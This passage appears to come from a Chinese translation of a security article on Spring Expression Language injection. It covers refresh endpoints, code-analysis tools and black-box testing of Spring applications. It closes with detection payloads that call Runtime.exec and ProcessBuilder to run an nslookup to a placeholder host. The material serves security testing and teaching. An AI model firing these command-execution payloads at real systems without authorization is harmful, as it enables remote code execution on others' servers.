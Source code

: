 ClassPathXmlApplicationContext和AbstractXmlApplicationContext类似于FileSystem，但分别使用ClassPath和XML带注释的bean作为配置的路径。

还有一个与上下文重新加载相关的有趣点 - @RefreshScope。

任何使用@RefreshScope注解的Spring Bean都将在启动时刷新。并且所有使用它的组件将在下次方法该方法时会创建新对象，将完全初始化并放入依赖项。

RefreshScope是上下文中的一个组件，它有一个公共方法refreshAll，旨在通过清除目标缓存来刷新区域中的所有组件。因此，在使用@RefreshScope的情况下，用户可以引用以/refresh(译者注:SpringCloud2.0默认不暴露，且路径变为/actuator/refresh)结尾的URL，从而重新加载带此注解的bean。

##### 其他工具
还有许多其他插件和程序可以让您分析代码并找到漏洞。
* Jprofiler - 作为一个单独的应用程序 - IDE的插件。允许分析正在运行的应用程序。通过构建图形来分析对象的行为是非常方便的。缺点就是这是付费软件，但有10天的免费期。它被认为是分析应用程序行为的最佳工具之一，不仅从安全的角度来看。
![g4kiijoeylzhjo742es00a_ksti.png](https://habrastorage.org/webt/g4/ki/ij/g4kiijoeylzhjo742es00a_ksti.png)
* Xrebel - 付了钱，我们没有找到试用期的可能性。但也被认为是最好的之一。
* Coverity - 使用其服务器进行分析，因此仅对那些可怕的人来说是非常方便的。
* Checkmarx非常有名，有报酬，知道多种语言并且抛出了很多误报。但最好指出理论上可能存在错误的地方，而不是错过真正的错误。
* OWASP依赖性检查 - 作为各种收集器的便捷插件提供。在分析Java应用程序时，我们设法为Maven和Ant测试它。还支持.Net。在工作结束时，它提供了一个方便的报告，指出过时的库和已知的漏洞。
* Findbugs - 之前已经提到过。它有很多实现，但是最方便且出于某种原因显示更多问题的是findbugs_cli选项。它可以使用如下：findsecbugs.bat -progress -html -output report_name.htm "path\example.jar" 

* LGTM QL - 早期已经提供了一个使用它的例子。另外，我想说还有一个付费用例，在收购后你会收到一个本地服务器来分析你的代码。QL不仅支持Java，因此很可能对您来说分析应用程序也很方便。

##### 黑盒检测
一般来说，需要特别注意的是使用了Spring框架的应用，以在其代码中使用SpEL，使用SpEL API的应用程序，或与此主题完全无关的Web服务。

如果是使用Spring，那么应该注意包含API的URL。还有必要检查服务器对endpoints如/metrics和/bean的响应 - 这将确定Spring Boot Actuator是否被应用引入依赖并使用，这些应用系统的监控和管理相关的功能很有用。

接下来，我们来看看可以控制的参数变量。正如我们之前看到的，每个变量及输入参数都可能是SpEL表达式的输入点，因此对所有潜在的变量进行检查非常重要。

* 可变参数： var[SpEL]=123
* 变量名称： &variable1=123&SpEL=
* Cookies：org.springframework.cookie = ${}
* 不同类型的请求GET、POST、PUT、PATCH等
* 第三方库

###### 检测payload
```java
${1+3}
T(java.lang.Runtime).getRuntime().exec("nslookup !url!")
#this.getClass().forName('java.lang.Runtime').getRuntime().exec('nslookup !url!')
new java.lang.ProcessBuilder({'nslookup !url!'}).start()
${user.name}

```
#### 总结
实际上，SpEL并不是第一种表达语言，还有很多其他的EL注入已经被发现。以下是其中一些：OGNL，MVEL，JBoss EL，JSP EL。在某些情况下，这些表达式注入的payload甚至会相同。

在ZeroNights(本文作者[@webr0ck](https://twitter.com/webr0ck)在该会议上演讲[Spel injection议题](https://2018.zeronights.ru/en/materials/))有一个问题：“除了Spring之外，你还能找到SpEL注入吗？”

如果你看一下CVE，几乎都是Spring框架相关的漏洞。但事实上，还有更多的案例，而且不仅仅是在github上提供的应用程序中。
